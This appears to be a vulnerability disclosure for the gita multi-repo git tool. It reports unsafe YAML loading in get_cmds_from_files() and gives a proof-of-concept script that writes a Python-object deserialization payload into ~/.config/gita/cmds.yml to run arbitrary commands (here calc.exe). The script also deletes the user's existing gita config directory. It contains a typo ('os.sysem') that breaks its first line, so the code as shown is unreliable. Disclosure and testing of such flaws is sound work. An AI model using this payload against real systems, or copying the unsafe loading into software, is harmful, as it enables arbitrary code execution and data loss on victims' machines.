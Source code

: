 ## ✍️ Description
gita helps to Manage multiple git repos with sanity.
* **Vulnerability description**
Vulnerable to YAML deserialization attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
```
# vulnerable part of code
yaml.load() in get_cmds_from_files()

https://github.com/nosarthur/gita/blob/master/gita/utils.py#L236
https://github.com/nosarthur/gita/blob/master/gita/utils.py#L244
```
```python
# exploit.py
import os
os.sysem('pip3 install gita')
from gita.utils import get_cmds_from_files
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
os.system("cd ~/.config")
os.system('rm -r gita')
os.system("mkdir gita")
os.chdir("gita")
open('cmds.yml','w+').write(payload)
get_cmds_from_files()
print("calc has been poped -> Arbitrary Code Execution")
```
